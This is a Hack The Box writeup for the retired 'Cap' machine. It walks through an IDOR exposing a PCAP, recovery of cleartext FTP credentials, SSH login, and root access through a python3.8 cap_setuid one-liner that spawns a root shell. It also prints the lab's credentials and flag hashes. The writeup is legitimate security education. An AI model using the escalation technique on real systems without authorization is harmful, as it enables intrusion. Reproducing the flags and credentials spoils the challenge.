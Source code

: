 ```yaml
---
title: "Cap — HackTheBox Writeup"
date: 2025-09-18
author: "Basil9099"
tags: ["HTB", "Linux", "PCAP", "Privilege Escalation", "capabilities"]
categories: ["CTF Writeups"]
summary: "IDOR → PCAP recovery of credentials → SSH user shell → Linux file capabilities (getcap) → root via python3.8 capability."
images: ["/images/cap/cap.webp"]
cover:
  image: "/images/cap/cap.webp"
  alt: "Cap HTB image"
  caption: "Cap - CTF - Hack The Box"
  relative: true
  hidden: false

---
```


> ⚠️ **Spoiler warning — retired HTB machine.**
> This writeup documents my playthrough of the retired Hack The Box machine **Cap**. VPN IPs shown are HTB-assigned addresses used during the box.

---

## 🔍 Recon

Initial scan:
```bash
nmap -sV -sC -oN initial 10.129.242.125
```
![Nmap scan showing open services](/images/cap/nmap_scan.png)


While enumerating the web application I discovered an IDOR (insecure direct object reference) path under /data:
![Web application dashboard](/images/cap/dashboard.png)


**The data ID in the URL can be changed to reveal something interesting**

```firefox
http://10.129.242.125/data/0
```
Accessing the data endpoint allowed me to download a PCAP file capturing unencrypted FTP traffic.
![IDOR vulnerability](/images/cap/url_id.png)

---

## 🧩 PCAP Analysis & Credentials
I opened the PCAP in Wireshark and inspected the FTP traffic. Credentials were sent in cleartext; I recovered the following valid account:

**Nathan's Credentials**
username: nathan
password: Buck3tH4TF0RM3!
With those credentials I could log into the host as nathan (SSH).
![Wireshark - unencrypted FTP traffic](/images/cap/unencrypted_ftp_creds.png)


---

## 🖥️ Foothold (SSH as nathan)
SSH into the box:

```bash
ssh nathan@10.129.242.125
 enter password: Buck3tH4TF0RM3!
```
![SSH as Nathan](/images/cap/ssh_nathan.png)

**Found the user flag:**

```bash
cat /home/nathan/user.txt
```
"ffebb9968efc6ca3d75c8cd36357cb06"
![User flag](/images/cap/user_flag.png)

---

## 🔐 Privilege Escalation (file capabilities)
Local enumeration for Linux capabilities:

```bash
# list capabilities recursively from root (hide permission denied noise)
getcap -r / 2>/dev/null
```

**Relevant output:**

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

What this means: getcap shows POSIX file capabilities on binaries. The entry for /usr/bin/python3.8 includes cap_setuid, indicating that this binary can change its UID — it can be abused to escalate privileges without needing a password.
![Local enumeration  with getcap](/images/cap/getcap.png)


# Exploit (use with care; this is what I ran on the box):

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
![Privilege escalation](/images/cap/privilege_escalation.png)


**That spawned a root shell:**
```bash
root@cap:~# whoami
root
```
![Gained root access](/images/cap/whoami.png)

---

## 🏁 Root Flag

```bash
cat /root/root.txt
```
"9589c70870530feec969223b4baca6fb"
![Found root flag](/images/cap/root_flag.png)

---

## 🔑 Takeaways

IDORs can expose sensitive artifacts (PCAPs, backups) — always check object enumeration endpoints like /data/<id>.

PCAP analysis with Wireshark is invaluable for recovering plaintext credentials when services are unencrypted (FTP/HTTP basic auth).

Linux file capabilities (checked via getcap) often provide escalation paths; cap_setuid on an interpreter (python) is a high-impact finding.

When a binary has cap_setuid, carefully consider executing it to elevate privileges — prefer non-interactive, audited commands if available.

---

## 📚 Resources & Notes

getcap / setcap documentation (man pages)

Wireshark — follow TCP stream for FTP credentials

CAPABILITY reference: Linux capabilities cap_setuid, cap_net_bind_service, etc.
